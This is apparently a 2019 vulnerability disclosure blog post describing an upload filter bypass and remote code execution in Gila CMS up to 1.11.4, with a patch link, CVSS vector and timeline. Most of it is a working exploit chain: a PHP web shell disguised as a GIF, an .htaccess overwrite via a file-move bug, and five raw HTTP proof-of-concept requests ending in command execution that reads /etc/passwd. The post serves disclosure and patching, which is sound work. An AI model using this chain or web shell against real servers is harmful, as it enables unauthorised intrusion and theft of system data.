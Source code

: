 ```yaml
---
layout: post
title: Gila CMS Upload Filter Bypass and RCE
date: 2019-10-13
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
  - rce
image: /assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell-on-server.png
---
```

Versions prior to and including 1.11.4 of Gila CMS are vulnerable to remote code execution by users that are permitted to upload media files. It is possible to bypass the media asset upload restrictions that are in place to prevent arbitrary PHP being executed on the server by abusing a combination of two issues.

The first is the support for uploading animated GIFs. By submitting a GIF that contains the following content we can place a GIF file that contains [currently unexecutable] PHP code in a GIF file on the server (in this case `test.gif`):

```php
GIF89a; <?=`$_GET[1]`?>
```

After uploading this, the file can now be clicked and the move function can be used to move this into another directory within the application directory with a PHP extension (in this case, it is moved to `tmp/media_thumb/shell.php`):

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/rename.png)

As can be seen in the below screenshot, this is now stored on the server with a valid extension:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell-on-server.png)

At this point, the PHP file cannot be executed as the htaccess file found in `tmp/.htaccess` contains the following configuration:

```xml
<Files *.php>
deny from all
</Files>
```

This prevents any PHP files under `tmp/` being accessed. However, the same upload vulnerability can be abused to overwrite the htaccess file. To do this, one uploads a GIF file again but with the content:

```
# GIF89a;
```

This creates a GIF file on the server, that starts with a valid comment character, which prevents the server running into an error when parsing it during subsequent requests. The same rename bug can then be used to move this file to `tmp/.htaccess`:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/htaccess.png)

After doing this, the PHP file can be accessed from the web browser, and remote code execution is gained as can be seen in the below screenshot in which `cat /etc/passwd` is executed:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell.png)

Versions Affected
-----------------
<= 1.11.4

Solution
--------
Update to a version later than 1.11.4 or apply the patch found at [https://github.com/GilaCMS/gila/pull/49](https://github.com/GilaCMS/gila/pull/49)

CVSS v3 Vector
--------------
[AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L/E:P/RL:T/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L/E:P/RL:T/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-12**: Vulnerability found
- **2019-10-13**: Patch created and pull request sent to project
- **2019-10-13**: CVE requested

Proof of Concept
----------------
**Step 1: Store blank htaccess stager**
```http
POST /gila/admin/media_upload HTTP/1.1
Host: 192.168.194.146
Content-Length: 510
Origin: http://192.168.194.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOYDZotidj55MOMPD
Accept: */*
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="uploadfiles"; filename="test.gif"
Content-Type: image/gif

# GIF89a;

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="formToken"

1=^4podpw4k&8%i
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="path"

assets
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="g_response"

content
------WebKitFormBoundaryOYDZotidj55MOMPD--

```

**Step 2: Overwrite tmp/.htaccess**
```http
POST /gila/fm/move HTTP/1.1
Host: 192.168.194.146
Content-Length: 80
Accept: */*
Origin: http://192.168.194.146
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

newpath=tmp%2F.htaccess&path=assets%2Ftest.gif&formToken=1%3D%5E4podpw4k%268%25i
```

**Step 3: Upload PHP shell stager**
```http
POST /gila/admin/media_upload HTTP/1.1
Host: 192.168.194.146
Content-Length: 524
Origin: http://192.168.194.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOYDZotidj55MOMPD
Accept: */*
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="uploadfiles"; filename="test.gif"
Content-Type: image/gif

GIF89a; <?=`$_GET[1]`?>

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="formToken"

1=^4podpw4k&8%i
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="path"

assets
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="g_response"

content
------WebKitFormBoundaryOYDZotidj55MOMPD--
```

**Step 4: Move PHP shell into tmp/media_thumb/shell.php**
```http
POST /gila/fm/move HTTP/1.1
Host: 192.168.194.146
Content-Length: 94
Accept: */*
Origin: http://192.168.194.146
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

newpath=tmp%2Fmedia_thumb%2Fshell.php&path=assets%2Ftest.gif&formToken=1%3D%5E4podpw4k%268%25i
```

**Step 5: Execute shell command on remote host**
```http
GET /gila/tmp/media_thumb/shell.php?1=cat%20/etc/passwd HTTP/1.1
Host: 192.168.194.146
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

```
